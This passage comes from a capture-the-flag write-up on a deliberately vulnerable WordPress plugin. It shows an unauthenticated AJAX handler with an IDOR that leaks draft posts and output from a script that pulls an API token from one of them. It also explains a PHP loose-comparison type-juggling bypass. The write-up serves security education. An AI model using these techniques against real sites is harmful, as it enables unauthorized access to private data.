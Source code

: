 Uh, wait, the post status is draft. How can we read its content?

Fortunately for us, there's an AJAX action called `patchstack_scheduler_preview` is vulnerable to **IDOR (Insecure Direct Object Reference)**, where we can **obtain any posts' details even if it's status is private or draft**:

```php
class PatchstackSchedulerPro {
    [...]
    private function __construct() {
        [...]
        add_action('wp_ajax_nopriv_patchstack_scheduler_preview', array($this, 'handle_preview_request'));
        add_action('wp_ajax_patchstack_scheduler_preview', array($this, 'handle_preview_request'));
        [...]
    }
    [...]
    public function handle_preview_request() {
        $post_id = isset($_GET['post_id']) ? intval($_GET['post_id']) : 0;
        $post = get_post($post_id);
        [...]
        wp_send_json_success(array(
            'content' => $post->post_content,
            'title' => $post->post_title
        ));
    }
}
```

In callback method `handle_preview_request`, we can provide GET parameter `post_id` to read any posts, as it didn't validate the post's status.

With that said, we can write a simple Python script to get the API token via this vulnerable AJAX action!

<details><summary markdown="span"><strong>get_api_token.py</strong></summary></details>

```shell
┌[siunam♥Mercury]-(~/ctf/Patchstack-Alliance-CTF-S02E01/Patchstack-Scheduler-Pro)-[2025.02.24|20:29:11(HKT)]
└> python3 get_api_token.py
[*] Trying post ID: 36
[+] API token: X1xyWiJlgs0uCvEyRwGfNLrTlpFas3mS
```

Nice! We got the API token in post ID 36! Which means we can pass the first validation!

Now, how about the second validation? Well, since it's using **loose comparison**, we can leverage **type jugging** to bypass the it!

Since loose comparison doesn't care about the data type, if JSON attribute `api_token` is a `true` boolean value, it'll compare integer `1` with integer `1` (`'not_an_empty_string'`), which returns boolean `true`:

```shell
┌[siunam♥Mercury]-(~/ctf/Patchstack-Alliance-CTF-S02E01/Patchstack-Scheduler-Pro)-[2025.02.24|20:31:50(HKT)]
└> php -a                  
[...]
php > var_dump(true == 'not_an_empty_string');
bool(true)
```
